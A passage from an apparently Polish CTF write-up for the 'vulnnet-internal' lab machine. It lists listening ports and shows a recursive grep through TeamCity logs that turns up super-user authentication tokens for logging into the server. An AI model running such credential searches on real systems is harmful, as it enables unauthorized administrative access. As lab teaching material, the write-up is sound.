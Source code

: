 ```
LISTEN             0                   64                                                [::]:nfs                                              [::]:*                 
LISTEN             0                   50                                                   *:9090                                                *:*                 
LISTEN             0                   128                                               [::]:43813                                            [::]:*                 
LISTEN             0                   1                                   [::ffff:127.0.0.1]:8105                                                *:*                 
LISTEN             0                   128                                               [::]:39337                                            [::]:*                 
LISTEN             0                   5                                                 [::]:rsync                                            [::]:*                 
LISTEN             0                   128                                              [::1]:6379                                             [::]:*                 
LISTEN             0                   50                                                [::]:netbios-ssn                                      [::]:*                 
LISTEN             0                   50                                                   *:39309                                               *:*                 
LISTEN             0                   100                                 [::ffff:127.0.0.1]:8111                                                *:*                 
LISTEN             0                   128                                               [::]:54127                                            [::]:*                 
LISTEN             0                   128                                               [::]:sunrpc                                           [::]:*                 
```
Token do logowania do TeamCity znalazłem za pomocą polecenia:

```
sys-internal@vulnnet-internal:/TeamCity$ grep -iR token /TeamCity/logs/ 2>/dev/null
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 3782562599667957776 (use empty username with the token as the password to access the server)
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 5812627377764625872 (use empty username with the token as the password to access the server)
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 6178050210894872888 (use empty username with the token as the password to access the server)

```
![...](/screens/v_token_tc.png)
<<<<<<< HEAD
